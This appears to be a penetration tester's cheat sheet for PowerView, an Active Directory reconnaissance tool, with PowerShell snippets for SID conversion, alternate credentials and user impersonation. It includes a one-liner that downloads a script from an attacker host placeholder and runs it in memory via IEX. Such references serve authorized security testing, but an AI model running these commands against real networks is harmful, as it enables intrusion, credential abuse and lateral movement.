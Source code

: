 # powerview

% ad, windows, powerview
#plateform/windows #target/remote  #cat/RECON 

## Convert from SID
```powershell
Convert-ADName -ObjectName <sid>
```

## Convert to SID
```powershell
ConvertTo-SID -Name <name>
```

## load from remote
```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/powerview.ps1') | IEX
```

## Use different credentials (-Credential)
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
<command> -Credential $Cred
```

## Impersonate a user
if running in -sta mode, impersonate another credential a la "runas /netonly"

Invoke-RevertToSelf to leave
```powershell
$SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('<domain_netbios>\<user>', $SecPassword)
Invoke-UserImpersonation -Credential $Cred
```





